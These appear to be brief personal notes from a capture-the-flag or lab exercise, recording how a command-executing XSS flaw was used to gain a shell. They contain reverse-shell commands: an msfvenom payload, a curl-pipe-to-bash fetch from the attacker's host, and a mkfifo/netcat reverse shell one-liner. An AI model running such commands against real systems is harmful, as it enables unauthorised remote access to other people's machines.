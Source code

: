 XSS on data. it executes commands
revshell
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.85 LPORT=5000 -f sh -o shell.sh`
- Host webserver on python and curl on the xss
	- `curl http://10.10.14.85:80/shell.sh | bash;`
-  msfvenom does not work
	- `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.85 5000 >/tmp/f' > shell.sh`
	- works
![[Screenshots/Pasted image 20240513125336.png]]
![[Screenshots/Pasted image 20240513125446.png]]

![[Screenshots/Pasted image 20240513125515.png]]